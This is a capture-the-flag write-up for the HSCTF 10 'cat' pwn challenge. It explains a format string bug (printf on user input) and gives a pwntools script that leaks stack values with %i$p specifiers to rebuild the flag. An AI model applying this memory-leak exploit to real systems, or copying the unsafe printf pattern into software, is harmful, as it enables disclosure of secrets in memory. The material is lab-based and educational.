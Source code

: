 ```yaml
---
title: HSCTF 10 - Cat
date: Wed Jun  7 09:01:33 PM +04 2023
categories: [Writeup]
tags: [ctf,hsctf2023,pwn]
---
```


## Description

pwn/cat (by hmmm) | 435 points

Cat is the true standard text editor.

`nc cat.hsctf.com 1337`

Downloads: [chall](https://hsctf-10-resources.storage.googleapis.com/uploads/11c5a2b8fd9941416b85a8202846024fb0e798db6ba25bc011444263df821ec9/chall), [chall.c](https://hsctf-10-resources.storage.googleapis.com/uploads/b8076a4583e1fac9195875c81c267779b15655f3250d8382ae9d214b28bb6be7/chall.c)

## Analysis

Program opens the `flag.txt`, reads and writes into `flag` buffer. After that `input` buffer is defined which simply echos the input. 

[Vulnerability](https://owasp.org/www-community/attacks/Format_string_attack) = `printf(buffer);` 

## Solution

I used the [***script***](https://github.com/Crypto-Cat/CTF/blob/main/ctf_events/intigriti_22/pwn/search_engine/exploit.py) from [***CryptoCat***](https://www.youtube.com/watch?v=BekVaShD9HE) writeup video which fuzzes the (similar) program, decodes value and builds the flag.

```py
from pwn import *

context.log_level = 'info'

flag = ''

# Let's fuzz x values
for i in range(8, 20):
    try:
        # io = process('./chall', level='warn') # Local
        io = remote('cat.hsctf.com', 1337, level='warn') # Connect to server

        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendline(f'%{i}$p'.encode())
        
        # Receive the response (leaked address followed by '.' in this case)
        result = io.recvline()

        # Ignore null values
        if b'nil' in result: continue
        
        print(f'{i}: {result}')
        try:
            # Decode, reverse endianess and print
            decoded = unhex(result.strip().decode()[2:])
            reversed_hex = decoded[::-1]
            print(str(reversed_hex))
            # Build up flag
            flag += reversed_hex.decode()
        except BaseException:
            ...

        io.close()
    except EOFError:
        io.close()

# Print and close
info(flag)
``` 